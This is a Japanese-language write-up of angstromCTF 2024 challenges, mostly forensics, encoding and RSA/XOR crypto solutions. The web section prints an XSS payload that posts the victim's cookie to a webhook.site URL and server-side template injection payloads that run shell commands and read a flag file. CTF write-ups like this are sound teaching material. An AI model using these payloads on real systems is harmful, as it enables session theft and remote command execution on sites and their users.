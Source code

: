 # [angstromCTF 2024](https://2024.angstromctf.com/challenges)に参加しました

数ヶ月ぶりにちゃんとCTFをやろうと思っていたところちょうど評判のよい(?)CTFがあったので参加しました.   
楽しいCTFを開催してくれた運営人の皆様, ありがとうございました.  
Web問題に関してはたまたま一緒に作業していたwebフロントを書く後輩に投げて, ほとんど解いてもらいました. ありがとう.  
510pt, 226/831（母数は正の得点を獲得しているチーム数）.

## trip(Misc 485solves)

### Description
> What road was this this [photo](https://files.actf.co/fdea3784a76afd8110498bd596653c433e3f5206bc0fa87f28a5edbd0a622ceb/trip.jpeg) taken on?  
> For example, if the road was "Colesville Road" the flag would be actf{colesville}.

### Consideration
綺麗な風景写真が渡されるので, 写真を撮った場所を答える.  
google lensじゃ絶対引っかからないような写真なので, 画像検索は望み薄.  
次にangstromチームのSNSを覗きに行ったけど該当するものなし.  
そういえばと思って, exiftoolにかけてみたらGPS Positionという欄があって, 緯度と経度があったので無事に場所の特定ができた.
```bash:exiftool trip.jpeg
GPS Position                    : 37 deg 56' 23.60" N, 75 deg 26' 17.11" W
```
あとはgoogle mapで検索して出てきた道の名前を答える.

## aw man(Misc 290solves)

### Description
> [Man](https://files.actf.co/5b9ef628dbf56fedc1ad1861b0ccb96569cd6a97fe49d50cb8f099155adf66b3/mann.jpg)? Is that you?

### Consideration
exiftoolで何も出なかったので, [aperi solve](https://www.aperisolve.com/)に投げてみた.  
enc.txtていうテキストファイルが抽出できたので中身を見てみる.
```txt:enc.txt
5RRjnsi3Hb3yT3jWgFRcPWUg5gYXe81WPeX3vmX
```
ここから地獄で何でdecode（decrypt）すれば良いか検討がつかず時間を溶かす.  
結果的にbaseをロールしていって, base58でdecodeできた.

## do you wanna a build snowman(Misc 317solves)

### Description
> Anna: Do you wanna build a snowman? Elsa: Sure if you can open my snowman [picture](https://files.actf.co/67ad046a16c81593ac82fdc7975dd8713a9c364774b69e2a8a3632e639c7fc66/snowman.jpg)

### Consideration
jpeg形式の画像ファイルが渡されるけど, 開けない.  
headerとかが正しくないんだろうなという推測でbinaryをいじってみることに.  
ファイルの最初にあるべきスタートマーカと呼ばれるSOIがあるらしく, そこが正しくなかったので修正したら開けた. （`fdd8`->`ffd8`）

## PHIlosophy(Crypto 339solves)

### Description
> Clam decided to start studying philosophy, and what is the difference between plus one and minus one anyway...

### Consideration
ほとんどがRSA暗号と同じになっているが, phiの値だけ$ phi = (p-1)(q-1) $でなく$ phi = (p+1)(q+1) $となっている. これでは秘密鍵が正しく生成されずに復号が正しく行われない.  
ここで,  
$
phi = (p+1)(q+1)
    = pq + p + q + 1
    = n + p + q + 1
$  
phiとnは既知なのでp+qが求まる.  
正しいphi'は  
$
phi' = (p-1)(q-1)
    = pq - (p+q) +1
$  
で求まるので正しく秘密鍵が生成できて, 復号が完了する.

## layers(Crypto 240solves)

### Description
> nc challs.actf.co 31398

### Consideration
やっていることとしては  
$ enc = flag \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000} $  
で, 1000個の鍵は毎回同じ鍵になる.  
よって  
$
flag = enc \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag \oplus key_1 \oplus key_1 \oplus key_2 \oplus key_2 \oplus ... \oplus key_{1000} \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag
$  
encは16進数になるので2番で投げて, 返ってくるflagも16進数なので`bytes.fromhex(flag)`とかで直す.

## markdown(Web 282solves)

### Description
> My friend made an app for sharing their notes!  
> App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
> Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  
> [index.js](https://files.actf.co/c9c1df7ad9c6c62b99454fbde63f1cce5bd69c1dadd87314de9053f4e601c16b/index.js)

### Consideration
リンクを共有する方のアプリケーションは送ったリンクを見に行くらしい ＆ markdownを生成する方のアプリケーションは サニタイズしない  
というとこまで後輩が進めてくれたのでそこからスタート.  
①tokenをリークさせて, ②レスポンスを自分が見れるサーバーに送るということをしないといけない.  
②に関しては前に[webhook](https://webhook.site/)というものを使っていた人がいたのを思い出してクリア.  
①は後輩がプロですぐに以下を考えてくれた.  
```
<img src="x" onerror="fetch('https://webhook.site/595b3f51-eaea-4381-988d-da5cb183770a', {method:'POST', body:document.cookie})" />
```
ほとんど後輩が解いてくれた. 感謝.

## winds(Web 259solves)

### Description
> Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)

### Consideration
SSTIができるというところまで後輩が進めてくれたのでそこからスタート.  
config見ても, 環境変数見てもflagないし, flagに繋がる情報は見つからず.  
以下で, lsコマンドを実行する.  
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read() }}
```
flag.txtがあったので以下で中身を見る.  
```
{{ request.form.get.__globals__['__builtins__']['open']('./flag.txt').read() }}
```  
リクエストで送るtextは並べ替えられてしまうけど, seed値が0なのでローカルで上のリクエストになるような文字列を生成できる.  
